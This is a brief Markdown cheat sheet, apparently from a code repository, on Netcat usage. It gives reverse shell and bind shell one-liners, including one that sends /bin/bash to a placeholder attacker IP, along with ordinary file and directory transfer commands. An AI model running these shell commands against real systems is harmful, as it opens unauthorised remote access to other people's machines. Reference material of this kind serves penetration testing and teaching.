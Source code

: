 **Netcat**  is a command-line tool used for network communication, debugging and file transfers. It supports TCP, UDP, and various advanced features.

## Reverse Shell

- **On Attacker's Machine (Listener)**
```bash
nc -lvnp 4444
```

- **On Target Machine**
```bash
nc <attacker_ip> 4444 -e /bin/bash
```

> **Note:** The `-e` flag enables the execution of commands, but it might be disabled in modern versions of Netcat. Use a compatible version or alternative methods if necessary.

## Bind Shell

- **On Target Machine**

```bash
nc -l -p 4444 -e /bin/bash
```

- **On Attacker's Machine**
```bash
nc <target_ip> 4444
```

## File Transfer

- **Sending a File**
```bash
# Sender
nc -l -p 1234 < file_to_send
```

- **Receiving a File**
```bash
# Receiver
nc <sender_ip> 1234 > received_file
```

## Transferring Directories

To transfer a directory, compress it first, then use Netcat for transfer:
- **Sender**
```bash
tar -cf - directory_to_send | nc -l -p 1234
```

- **Receiver**
```bash
# Receiver
nc <sender_ip> 1234 | tar -xf -
```

